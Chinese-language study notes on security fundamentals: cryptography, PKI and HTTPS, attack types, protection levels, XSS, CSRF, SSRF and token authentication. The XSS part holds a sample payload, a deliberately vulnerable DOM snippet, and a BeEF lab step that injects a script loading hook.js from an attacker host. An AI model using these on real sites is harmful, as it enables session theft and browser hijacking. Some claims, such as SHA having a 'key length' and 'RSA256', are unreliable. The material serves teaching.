



# 安全基础技术

## 对称加密

Symmetric Cryptography：是最快、最简单的一种加密方式，加密（encryption）与解密（decryption）用的是同样的密钥（secret key）。

密钥的大小一般小于256 bit，相对较小。因为密钥越大，加密越强，但加密与解密的过程越慢。既要照顾到安全性，也要照顾到效率，是一个trade-off（权衡点）。

缺点：

1. 虽然效率高，但加密强度不高，
2. 密钥的管理与分配有风险，发送密钥的过程容易被拦截。

常见对称密钥加密算法：

1. DES：**替换+移位**、56位密钥、64位数据块、速度快、密钥易产生。

2. 3DES(三重DES)：两个56位的密钥K1、K2，

   加密：K1加密->K2解密->K1加密；

   解密：K1解密->K2加密->K1解密

3. RC-5 ：RSA数据安全公司的很多产品都使用了RC-5。

4. IDEA：128位密钥、64位数据块、比DES的加密性好、对计算机功能要求相对低，PGP

5. AES：高级加密标准，又称Rijndael加密法，是美国政府采用的种区块加密标准。

## 非对称加密

Asymmetric Cryptography：使用了一对密钥，公钥（public key）和私钥（private key）；一般是公钥加密，私钥解密。

优点：是简化了密钥的发放及管理的过程，支持数字签名等安全认证技术，安全性提高

缺点：是加密和解密的计算过程特别复杂，运行数据加密和解密的速度比较慢。

最常用的非对称加密算法

1. RSA算法：2048位（或1024位）密钥，计算量大，难破解
2. Elgamal：安全性依赖于计算有限域上离散
3. ECC：椭圆曲线算法。

## 数字信封

原理：

1. 发送方使用**对称密钥加密数据**，然后使用收件方的**公钥加密对称密钥**，产生一个数字信封，发送到收件方。
2. 接收方使用私钥对数字信封进行解密，得到对称加密的密钥，然后双方可以使用对称加密来进行沟通。

特点：

1. 数字信封结合对称密钥加密技术的高效性、安全性，克服该技术发放密钥过程的复杂性，
2. 结合非对称密钥加密技术的灵活性，避免该技术对数据进行加密需要非常长时间的困扰，保证数据传输的完整性、真实性、高效性。

## 信息摘要

定义：消息摘要算法也被称为**哈希（Hash）算法或散列算法**，是一个单向散列函数、固定长度的散列值。

主要特征：是加密过程不需要密钥，并且经过加密的数据无法被解密。

著名的摘要算法：MD5算法（散列值128），SHA-1算法（散列值160）及其大量的变体。由于SHA的密钥长度较长，因此安全性高于MD5.

**缺点**：因为哈希碰撞，所以有可能原文不一样，摘要一样。

应用：

1. 一致性验证：防篡改，核对下载的文件与发送方提供的文件是否相符（两个文件的摘要是否一致）
2. 安全访问认证：
   1. 注册时提交的口令经过Hash计算后存入数据库，验证时提交的口令同样进行Hash计算。
   2. 这可以避免用户的密码被具有系统管理员权限的用户知道，以此保护敏感信息。即使数据库被不法分子窃取，也很难获知用户的真正口令。

## 数字签名

定义：数字签名是只有信息的发送者才能产生的别人无法伪造的一段数字串，这段数字串类似于写在纸上的物理签名，用于鉴别数字信息的真伪，同时也是对信息的发送者身份真实性的一个有效证明。

数字签名是公钥加密技术与消息摘要技术的结合应用：


1. 明文通过Hash算法（MD5）得到信息摘要（摘要是明文的缩影，节省空间）
2. 发送者使用自己的私钥，进行加密（RSA），生成数字签名。发送数字签名+明文。
3. 接收者接收后验证：将数字签名使用发送者的公钥解密（RSA），得到信息摘要；明文使用Hash算法（MD5）得到信息摘要；两者进行对比，一致说明没有被篡改。

## 数字证书

问题描述：

1. 接收方利用发送方的公钥解密对方的数字签名，来验证信息是否是由发送方所提供，但却**无法证实发送方与其所声明的数据的拥有者是一致的**。同时，虽然公钥是公开的，但是不排除有安全漏洞，数字签名有可能被伪造。
2. 示例：公钥是公开的并且可以自行导入到电脑，如果有人比如C偷偷在B的电脑用自己公钥替换了A的公钥，然后用自己的私钥给B发送Email，这时B收到邮件其实是被C冒充的但是他无法察觉。
3. 安全漏洞根源就是A的公钥很容易被替换

解决方案：

1. 采用签发数字证书来解决以上问题。
2. A去找证书中心CA为公钥做认证。证书中心用自己的私钥，对A的公钥和一些相关信息一起加密，生成"数字证书"（Digital Certificate）
3. A在邮件正文下方除了数字签名，另外加上这张数字证书
4. B收到Email后用CA的公钥解密这份数字证书，拿到A的公钥，然后验证数字签名

原理：数字证书实际上是由认证中心颁发的包含证书持有人的真实身份信息、公开密钥信息等信息一段数据。而且其功能与日常用的居民**身份证**相似，身份认证机构签发的数字签名可以保障数字证书信息的真实性。

**内容：**

1. 证书的版本信息
2. 证书的序列号（唯一）
3. 证书所用的签名算法
4. 证书的发行机构名称，命名规则一般采用X.500格式
5. 证书的有效期，一般采用UTC时间格式，计时范围哦1950~2049
6. 证书所有人的名称，命名规则一般采用X.500格式
7. 证书所有人的公开密钥
8. 证书发行者对证书的签名。

USBKey：包含证书和私钥，物理隔离。完成一笔转账后，对交易做数字签名，确保安全。

问题：

- 假设数字证书被伪造了呢？
  答案：传输中数字证书有可能被篡改。因此数字证书也是经过数字签名的，B收到邮件后可以先验证这份数字证书的可靠性（是否被篡改），通过后再验证数字签名。
- 要是有1万个人要给B发邮件，难道B要保存1万份不同的CA公钥吗？
  答案：不需要，CA认证中心给可以给B一份“根证书”，里面存储CA公钥来验证所有CA分中心颁发的数字证书。CA中心是分叉树结构，类似于公安部->省公安厅->市级派出所，不管A从哪个CA分支机构申请的证书，B只要预存根证书就可以验证下级证书可靠性。
- 如何验证根证书可靠性？
  答案：无法验证。根证书是自验证证书，CA机构是获得社会绝对认可和有绝对权威的第三方机构，这一点保证了根证书的绝对可靠。如果根证书都有问题那么整个加密体系毫无意义。

## PKI公钥体系

定义：公钥基础设施(Public Key Infrastructure, PKI)是典型的密码应用技术。

原理：

1. PKI 系统中， 由**注册机构RA验证用户身份**，由**证书认证机构CA生成和签发数字证书**（绑定用户的身份信息和公钥）。 
2. PKI 依赖方(Relying Party)预先存储有自己所信任的根 CA 自签名证书,，用来验证与之通信的 PKI 用户的证书链，从而可信地获得该用户的公钥、用于各种安全服务。

PKI 系统由认证机构 CA(Certification Authority,)、注册审批机构 RA（Registration Authority）、数字证书库、密钥备份及恢复系统、证书撤销系统、密钥更新机制等组成。


### https应用

数字签名和数字证书可以用于文件，当然也能用于html网页数据

http的安全缺陷

1. 无法验证服务端的身份
2. 无法保证数据完整性
3. 无法保证数据传输不被窃听

而https就是专门解决这三个问题，https使用数字签名+数字证书解决了前2个问题。

https协议是由**SSL+http**构建的可进行加密传输、身份认证的网络协议，要比 http安全，可防止数据在传输过程中被窃取、改变，确保数据的完整性。

1. CA中心合适工商银行身份，签发数字证书。保存在服务器上。
2. 客户端下载证书，核实访问服务器是否正确
3. 客户端加密：客户端获取证书中的公钥信息，并生成随机密钥，再用公钥加密随机密钥，发送给服务器
4. 服务器解密：使用私钥解密获取随机密钥。信息传输都使用随机密钥进行加密。


## 总结

习题：请设计一个安全邮件传输系统，要求：该邮件以加密方式传输，邮件最大附件**内容可达2GB（智能使用对称加密，非对称加密会很慢）**，发送者**不可抵赖（数字签名）**，若邮件被第三方截获，第三方**无法篡改（信息摘要）**。

对称加密算法加密强度不高，容易破解，所以使用随机密钥。


# 网络安全

刚开始的TCP/IP通信协议,，只考虑了连通性，没有考虑安全性。所以保障安全的方式就是加密。

## 网络层次的安全保障

网络七层的安全保障措施：

1. 应用层：PGP（Pretty Good Privacy优良保密协议），Https（http+SSL）
2. 表示层：SSL（Secure Sockets Layer安全套接字协议，工作在**传输层到应用层**）
3. 会话层
4. 传输层:：TLS（Transport Layer Security传输层安全协议），SET（Secure Electronic Transaction安全电子交易协议，**用于电子商务，保证交易双方不抵赖**）
5. 网络层：防火墙（检查站，防外不防内），IPSec（Internet Proocol Security互联网安全协议，对IP包加密）.
6. 数据链路层：链路加密，PPTP，L2TP
7. 物理层：隔离（USBKey，物理隔离)、屏蔽（无线电信号屏蔽）。

## 邮件安全

MIME(Multipurpose Internet Mail Extensions)中文名为：多用途互联网邮件扩展类型。

1. 是一个互联网标准，扩展了电子邮件标准，使其能够支持：非ASCII字符文本；非文本格式附件（二进制、声音、图像等）；由多部分（multiple parts）组成的消息体；包含非ASCII字符的头信息（Header information）
2. MIME规定了用于表示各种各样的数据类型的符号化方法
3. HTTP协议中，标准被扩展为互联网媒体类型。
4. 服务器将MIME标志符放入传送的数据中来告诉浏览器使用哪种插件读取相关文件。

S/MIME (Secure Multipurpose Internet Mail Extensions)是对 MIME 在安全方面的扩展。它可以把 MIME 实体(比如数字签名和加密信息等)封装成安全对象，**增强安全服务**。

- 例如具有接收方确认签收的功能，这样就可以确保接收者不能否认已经收到过的邮件。还可以用于提供数据保密、完整性保护、认证和鉴定服务等功能。 
- **提供安全电子邮件服务**：只保护邮件的邮件主体，对头部信息则不进行加密，以便让邮件成功地在发送者和接收者的网关之间传递.

PGP（Pretty GoodPrivacy, 优良保密协议)，是一套用于信息加密、验证的应用程序，可用于加密电子邮件内容。

邮件传输过程的安全：HTTPS，SSL

## 网络威胁和攻击

被动攻击：收集信息为主，破坏保密性

| 攻击名称         | 描述                                                         |
| ---------------- | ------------------------------------------------------------ |
| 窃听             | 网络监听，用各种合法或非法的手段窃取系统中的**信息资源和敏感信息** |
| 业务流分析       | 通过对系统进行长期监听，利用统计分析方法对**通信频度、通信的信息流向、通信总量的变化**等参数进行研究，从而发现**有价值的信息和规律** |
| 非法登录（使用） | 非法登录后，只是浏览信息。**若恶意删除、修改数据，则为主动攻击。** |

主动攻击：主要类别有**中断（破坏可用性），篡改（破坏完整性），伪造（破坏真实性）**

| 攻击名称        | 描述                                                         |
| --------------- | ------------------------------------------------------------ |
| 假冒身份        | 通过欺骗通信系统（或用户）达到非法用户冒充成为合法用户，或者特权小的用户冒充特权大的用户的目的。 |
| 抵赖            | 是一种来自用户的攻击（否认自己曾经发布过的某条信息，伪造一份对方来信等） |
| 旁路控制        | 攻击者利用系统的安全缺陷获得非授权的权利                     |
| 重放攻击        | 所截获的某次合法的通信数据拷贝，出于非法的目的被重新发送（**加时间戳**能识别并应对重放攻击） |
| 拒绝服务（DOS） | 对信息或其它资源的合法访问被无条件阻止（多台肉机访问服务器，超过其最大并发量，耗尽服务器资源，让其无法处理其它客户端的请求） |

## 安全保护等级

计算机信息系统安全保护等级划分准则（GB17859-1999）

1. 用户自主保护级：适用于普通内联网用户

   系统破坏后，**对公民、法人、其它组织权益有损害**，但不损害国家安全、社会秩序、公共利益。

2. 系统审计保护级：适用于通过内联网或国际网进行**商务活动**，需要保密的非重要单位。

   系统破坏后，**对公民、法人、其它组织权益有严重损害**，或**损害社会秩序、公共利益**，但不损害国家安全。

3. 安全标记保护级：适用于地方各级国家机关、金融机构、邮电通信、能源、水源供给部门、交通运输、大型工商与信息技术企业、重点工程建设等单位

   系统破坏后，**对社会秩序、公共利益造成严重损害**，或对**国家安全造成损害**

4. 结构化保护级：适用于中央级国家机关、广播电视部门、重要物资储备单位、社会应急服务部门、尖端科技企业集团、国家重点科研机构、国防建设等部门

   系统破坏后，**对社会秩序、公共利益造成特别严重损害**，对**国家安全造成严重损害**

5. 访问验证保护级：适用于国防关键部门和依法需要对计算机信息系统**实施特殊隔离**的单位

   系统破坏后，**对国家安全造成特别严重损害**

| 保护级   | 公民、法人、组织权益 | 社会秩序、公共利益 |   国家安全   |
| -------- | :------------------: | :----------------: | :----------: |
| 用户自主 |         损害         |                    |              |
| 系统审计 |       严重损害       |        损害        |              |
| 安全标记 |                      |      严重损害      |     损害     |
| 结构化   |                      |    特别严重损害    |   严重损害   |
| 访问验证 |                      |                    | 特别严重损害 |

## 信息安全体系结构


**5大安全服务：**

1. 鉴别（认证）服务：在网络交互过程中，对收发双方的身份及数据来源进行验证。

   **实现方式：**用户名+口令，数字证书、生物特征识别（指纹，声音、人脸识别）

2. 访问控制：防止未授权用户非法访问资源，包括用户身份认证和用户权限确认。

   **实现方式**：**自主访问控制DAC**（指定某个客体对主体的访问权），访问控制列表ACL（对客体指定允许访问的主体，如ip白名单，回帖可见），**强制访问控制MAC**（主客体分级后匹配），**基于角色的访问控制RBAC**、基于任务的访问控制TBAC（工作流中，加入某个任务才有权限）

3. 数据完整性：防止数据在传输过程中被篡改

   **阻止对媒体访问的机制**：隔离、访问控制、路由控制

   **探测非授权修改的机制**：**数字签名**、数据重复、数字指纹、消息序列。

4. 数据保密性：防止数据在传输过程中被破解、泄露。

   **实现方式：**禁止访问、加密机制

5. 抗抵赖：防止发送方与接收方双方在执行各自操作后，否认各自所做的操作。

   **实现方式：**数字签名。

防护软件：

1. 防火墙无法阻止和检测基于数据内容的黑客攻击和病毒入侵，同时也无法控制内部网络之间的违规行为。
2. 扫描器无法发现正在进行的入侵行为，而且它有可能成为攻击者的工具。
3. 防毒软件对基于网络的攻击行为(如发描、针对漏洞的攻击）无能为力。
4. 目前市场上鲜见成熟的安全审计系统，即使存在冠以审计名义的产品，也更多的是从事入侵检测的工作。

## 安全体系架构

流程：确定访问协议HTTPS、考虑防火墙、对于硬件、服务等直接购买成熟的云服务、软件部分的安全处理

防火墙：

- 所有的请求先要通过防火墙，才能进入网关和后台服务，并构建停火区。
- 内部网络和外部网络之间的所有网络数据流，都必须经过网络防火墙
- 防火墙自身应具有非常强的抗攻击免疫力
- 应用层防火墙具备更细致的防护能力。比如：阿里就有web防火墙
- 数据库防火墙针对数据库恶意攻击的阻断能力

安全处理方案：

1. 网关：数据校验、敏感字符替换、权限校验等等，这也可以有效抵御一部分攻击，比如XSS、CSRF、SQL 注入、脚本注入等等

2. 数据：

   1. 对于敏感数据：加密存放、加密传输，尽量使用非对称加密，比如RSA256.
   2. 内部使用的数据，采用对称加密，也尽量采用SHA256，并加盐的方式。 这样防止被纂改、和 非法访问，对于非法破坏数据，就只能依靠备份来恢复数据了。
   3. 对数据库连接地址、端口、用户名和密码的管理，尽量控制在极少的人手里，防止非法访问。

3.  服务之间：可以限定ip访问，也可以再加入权限验证的功能

4.  数据自动备份：这个一般是程序调用命令或脚本来实现

5. 身份伪造：不能仅仅靠session了，需要token+session，并加密里面的信息，然后到服务端，filter里面，对token和session的数据进行校验

6. 越权操作：url权限控制、网关权限控制、业务功能操作前进行权限验证，作为一个前置条件

   只要控制住了身份伪造，系统自身设置完善，没有bug的话，越权操作应该可以防止住。

7. 权限滥用：记录业务操作日志，进行业务审计，对于因滥用破坏的数据，人工恢复或是从备份恢复

8. 抵赖：记录业务操作日志，进行业务审计，以系统留痕为准。

9. 泄密：

   1. 人为泄密，这个是管理方面的问题。
   2. 如果是因为程序导致的泄密，要加强测试，并制定代码发布规范和代码审查规范，防止出现泄密情况

10. 纂改：

    1. 如果是通过系统进行的，要加强管理和审计，并从备份中进行恢复。
    2. 如果是直接操作数据库的，要加强数据库帐号密码等的管理，防止非法访问。

11. 验证码：对于一些敏感的人为操作，需要验证码来再次确认操作人身份，比如：登录、修改敏感信息、跟财务相关的操作啊等等

12. DDoS 防范：主要是靠防火墙来处理，但应用里面也需要做一些功能性的处理，比如：记录统一客户端的每秒访问次数、或同一ip的每秒访问次数、或者是某个业务功能的错误次数（比如登录密码错误）、或者是对同一个接口的每秒访问次数等等，对于超过一定标准的，直接返回，不予处理。

13. 考虑使用跳板机或者是vpn接入：这个对于后台管理端，主要是内部工作人员处理的部分，可以考虑使用跳板机、或者是vpn接入，这样能进一步提高应用的安全性。

# XSS

## 定义

**跨站脚本**（cross site script）为了避免与样式css混淆，所以简称为XSS。 XSS是一种经常出现在web应用中的计算机安全漏洞，也是web中最主流的攻击方式。

**XSS 攻击**指黑客通过特殊的手段往网页中插入了恶意的 JavaScript 脚本，从而在用户浏览网页时，对用户浏览器发起 Cookie 资料窃取、会话劫持、钓鱼欺骗等各攻击。

**方式**：XSS 跨站脚本攻击本身对 Web 服务器没有直接危害，它借助网站进行传播，使网站的大量用户受到攻击。攻击者一般通过留言、电子邮件或其他途径向受害者发送一个精心构造的恶意 URL，当受害者在 Web 浏览器中打开该URL的时侯，恶意脚本会在受害者的计算机上悄悄执行。

```html
// XSS 弹窗：直接在 HTML 页面通过
<html>
<body>
  <script>alert(1)</script>
</body>
</html>
```

造成XSS漏洞普遍流行的原因如下:

1. Web 浏览器本身的设计不安全，无法判断 JS 代码是否是恶意的
2. 输入与输出的 Web 应用程序基本交互防护不够，
3. 程序员缺乏安全意识，缺少对 XSS 漏洞的认知
4. XSS 触发简单，完全防御起来相当困难

XSS攻击的危害：XSS 可能不如 SQL 注入、文件上传等能够直接得到较高操作权限的漏洞，但是它的运用十分灵活只要开拓思维，适当结合其他技术一起运用，威力巨大：

1、网络钓鱼、盗取用户 cookies 信息、获取客户端隐私信息、盗取各类用户帐号，如机器登录帐号、用户网银帐号、各类管理员帐号，提升用户权限，包括进一步渗透网站
2、劫持用户浏览器、强制弹出广告页面、刷流量
3、盗窃企业重要的具有商业价值的资料、控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
4、进行恶意操作，例如任意篡改页面信息、非法转账
5、强制发送电子邮件，传播跨站脚本蠕虫等
6、网站（网页）挂马
7、控制受害者机器向其它网站发起攻击
8、结合其他漏洞，如 CSRF 漏洞，实施进一步作恶

## 分类

### 反射型-非持久

反射型XSS只是简单的把用户输入的数据从服务器反射给用户浏览器，要利用这个漏洞，攻击者必须以某种方式诱导用户访问一个精心设计的URL（恶意链接），才能实施攻击。

**漏洞成因**：当用户的输入或者一些用户可控参数未经处理地输出到页面上，就容易产生XSS漏洞

1. 将不可信数据插入到HTML标签之间时；// 例如div, p, td；
2. 将不可信数据插入到HTML属性里时；// 例如：<div width=$INPUT></div>
3. 将不可信数据插入到SCRIPT里时；// 例如：<script>var message = ” $INPUT “;</script>
4. 插入到Style属性里的情况，同样具有一定的危害性；// 例如<span style=” property : $INPUT ”></span>
5. 将不可信数据插入到HTML URL里时，// 例如：<a href=”[http://www.abcd.com?param=](http://www.ccc.com/?param=) $INPUT ”></a>

对于以上的几个场景，若服务端或者前端没有做好防范措施，就会出现漏洞隐患。

**攻击流程**：反射型XSS通常出现在搜索等功能中，需要被攻击者点击对应的链接才能触发，且受到XSS Auditor(chrome内置的XSS保护)、NoScript等防御手段的影响较大，所以它的危害性较存储型要小。



### 存储型-持久

**漏洞成因**： 存储型XSS漏洞的成因与反射型的根源类似，不同的是恶意代码会被保存在服务器中，导致其它用户（前端）和管理员（前后端）在访问资源时执行了恶意代码，用户访问服务器-跨站链接-返回跨站代码。

**攻击流程**



### DOM型

输入的恶意代码不会经过服务器，在前端被js代码直接读取放置到前端的标签中，是一 种特殊的反射型XSS。

漏洞成因：DOM型XSS是基于DOM文档对象模型的。对于浏览器来说，DOM文档就是一份XML文档，当有了这个标准的技术之后，通过JavaScript就可以轻松的访问DOM。当确认客户端代码中有DOM型XSS漏洞时，诱使(钓鱼)一名用户访问自己构造的URL，利用步骤和反射型很类似，但是唯一的区别就是，构造的URL参数不用发送到服务器端，可以达到绕过WAF、躲避服务端的检测效果。

下面编写一个简单的含有 DOM XSS漏洞的 HTML 代码：

```html
<meta charset="UTF-8">

<script>
    function xss(){
        var str = document.getElementById("src").value;
        document.getElementById("demo").innerHTML = "";
    }
</script>

<input type="text" id="src" size="50" placeholder="输入图片地址" />
<input type="button" value="插入" onclick="xss()" /><br>
```

用户输入框插入图片地址后，页面会将图片插入在id=“demo” 的 div 标签中，从而显示在网页上

同样，这里也没有对用户的输入进入过滤，当攻击者构造如下语句插入的时候：

```

```

会直接在img标签中插入onerror事件，该语句表示当图片加载出错的时候，自动触发后面的 alert()函数，来达到弹窗的效果，这就是一个最简单的 DOM 型 XSS 漏洞。

### 通用型XSS

通用型XSS，也叫做UXSS或者Universal XSS，全称Universal Cross-Site Scripting。

上面三种XSS攻击的是因为客户端或服务端的代码开发不严谨等问题而存在漏洞的目标网站或者应用程序。这些攻击的先决条件是访问页面存在漏洞，但是UXSS是一种利用浏览器或者浏览器扩展漏洞来制造产生XSS的条件并执行代码的一种攻击类型。

**漏洞成因**：Web浏览器是正在使用的最流行的应用程序之一，当一个新漏洞被发现的时候，不管自己利用还是说报告给官方，而这个过程中都有一段不小的时间，这一过程中漏洞都可能被利用于UXSS。

不仅是浏览器本身的漏洞，现在主流浏览器都支持扩展程序的安装，而众多的浏览器扩展程序可能导致带来更多的漏洞和安全问题。因为UXSS攻击不需要网站页面本身存在漏洞，同时可能访问其他安全无漏洞页面，使得UXSS成为XSS里危险和最具破坏性的攻击类型之一。

漏洞案例：IE6或火狐浏览器扩展程序Adobe Acrobat的漏洞

这是一个比较经典的例子。当使用扩展程序时导致错误，使得代码可以执行。这是一个在pdf阅读器中的bug，允许攻击者在客户端执行脚本。构造恶意页面，写入恶意脚本，并利用扩展程序打开pdf时运行代码。tefano Di Paola 和 Giorgio Fedon在一个在Mozilla Firefox浏览器Adobe Reader的插件中可利用的缺陷中第一个记录和描述的UXSS，Adobe插件通过一系列参数允许从外部数据源取数据进行文档表单的填充，如果没有正确的执行，将允许跨站脚本攻击。

### 突变型XSS

突变型XSS，也叫做mXSS或，全称Mutation-based Cross-Site-Scripting。（mutation，突变，来自遗传学的一个单词，大家都知道的基因突变，gene mutation）

**漏洞成因**：如果用户所提供的富文本内容通过javascript代码进入innerHTML属性后，一些意外的变化会使得这个认定不再成立：浏览器的渲染引擎会将本来没有任何危害的HTML代码渲染成具有潜在危险的XSS攻击代码。

随后，该段攻击代码，可能会被JS代码中的其它一些流程输出到DOM中或是其它方式被再次渲染，从而导致XSS的执行。 这种由于HTML内容进入innerHTML后发生意外变化，而最终导致XSS的攻击流程。

**攻击流程**：将拼接的内容置于innerHTML这种操作，在现在的WEB应用代码中十分常见，常见的WEB应用中很多都使用了innerHTML属性，这将会导致潜在的mXSS攻击。从浏览器角度来讲，mXSS对三大主流浏览器（IE，CHROME，FIREFOX）均有影响。

## 实现

**利用流程**

1. 找注入点，找到数据输入的地方

2. 判断回显位置---输入的数据在什么地方输出

   如果输入的数据能够在前端进行输出，则可以证明输入的前段恶意代码在没有安全性处理的情 况下能够输出前端，从而造成风险

3. 构造基础的payload

4. 进行提交payload 

5. 分析响应状况：如果成功解析则XSS存在、反之考虑绕过

6. 确认漏洞：如果响应达到了预期，则说明漏洞存在，反之不存在。

**攻击难度**：高危漏洞但漏洞库不一定接受此漏洞，存储型XSS肯定被接受

1. 反射型攻击难度较高：如何发送含有payload的连接呢---社工------效率很低、影响面较小

2. 存储型XSS攻击难度较小、攻击者将恶意代码写入数据库，只要访问该网站的用户必定中招

**防御措施**：1.过滤---将关键的字符过滤掉 。2. 实体化编码，特殊字符转换成字符串

## 自动化XSS-BeEF

Browser Exploitation Framework (BeEF) BeEF是目前最强大的浏览器开源渗透测试框架，通过XSS漏洞配合JS脚本和Metasploit进行渗透； BeEF是基于Ruby语言编写的，并且支持图形化界面，操作简单。

官网：http://beefproject.com/

- 信息收集：网络发现、主机信息、Cookie获取 、会话劫持、键盘记录、插件信息
- 持久化控制：确认弹框、小窗口、中间人、
- 社会工程：点击劫持、弹窗告警、虚假页面、钓鱼页面
- 渗透攻击：内网渗透、Metasploit、CSRF攻击、DDOS攻击

使用：

1. 启动Apache和BeEF: root@kali:~# service apache2 start

2. 登录BeEF:  username: beef  password: beef

3. 渗透机将脚本放在DWVA靶机中：

   ```html
   <script src="http://192.168.106.140:3000/hook.js"></script> 
   // 注：192.168.106.140为BeEF所在机器，即Kali Linux IP 注：需修改字符数的限制，例如为200
   ```

4. 肉机Win7 访问XSS stored页面

5. BeEF页面查看肉鸡是否上线

6. 信息收集，命令颜色(Color): 

   绿色  对目标主机生效并且不可见（不会被发现）  

   橙色  对目标主机生效但可能可见（可能被发现）  

   灰色  对目标主机未必生效（可验证下） 

   红色  对目标主机不生效

# CSRF

CSRF，本名为Cross-site requestforgery，也就是跨站请求伪造。

**XSS和CSRF区别**：同为跨站攻击，XSS攻击是跨站脚本攻击，CSRF攻击是请求伪造，也就是CSRF攻击本不是出自用户之手，却经过第三方恶意攻击者的处理，伪装成了受信任用户的亲历亲为。攻击者盗用了你的身份，以你的名义发送恶意请求。

CSRF能够做的事情包括：以你的名义发送邮件，发消息，盗用你的账号，甚至于购买商品，虚拟货币转账。

发生条件：①登录受信任网站A，并在本地生成cookie。②在不登出A的情况下，访问危险网站B。

# SSRF

SSRF，也就是Server Side RequestForgery---服务器端请求伪造。有的大型网站在Web应用上提供了从其他服务器获取数据的功能。使用户指定的URL web应用获取图片，下载文件，读取文件内容。攻击者利用有缺陷的Web应用作为代理攻击远程和内网的服务器。

危害：

①可对内网，服务器所在内网，受控服务器进行端口扫描，获取一些banner。

②对内网Web应用进行指纹识别，通过访问默认文件实现。

③攻击内外网Web应用，主要是使用get参数就可以实现分攻击。

④利用file协议读取本地文件。

# Token

基于服务器的验证：

- HTTP协议是无状态的，意味着程序需要验证每一次请求，从而辨别客户端的身份。程序通过在服务端存储的登录信息来辨别请求的。这种方式一般都是通过存储Session来完成。
- session：每次认证用户发起请求时， 服务器需要去创建一个记录来存储信息， 当越来越多的用户发请求时， 内存的开销也会不断增加
- 缺点：可扩展性差。
  - CORS（跨域资源共享）： 当我们需要让数据跨多台移动设备上使用时， 跨域资源共享回事一个让人头疼的问题， 在使用ajax抓取另一个域的资源，就可以会出现禁止请求的情况
  - CSRF（跨站请求伪造）： 用户在访问银行网站时， 他们很容易受到跨站请求伪造的攻击， 并且能够被利用其访问其他网站

基于Token 的身份验证:

- 是无状态的，不将用户信息存在服务器或Session中。可以根据需要去增减机器，而不用去担心用户是否登录。

- 验证过程：

  1. 用户通过用户名和密码发送请求。

  2. 程序验证。

  3. 程序返回一个签名的token 给客户端。

  4. 客户端储存token,并且每次用于每次发送请求。

  5. 服务端验证token并返回数据

- 每一次请求都需要token。token应该在HTTP的Header发送，从而保证了Http请求无状态。我们同样通过设置服务器属性Access-Control-Allow-Origin:* ，让服务器能接受到来自所有域的请求。需要主要的是，在ACAO头部标明(designating)*时，不得带有像HTTP认证，客户端SSL证书和cookies的证书。

- 优点：无状态、可扩展、支持移动设备、跨程序调用、安全

- 缺点：内存级别重启全部失效（可存数据库）；时效性，无法失效，被非法获取之后可以一直使用；集群部署，多台服务器无法共享，在负载会导致用户状态不同步。

# JWT

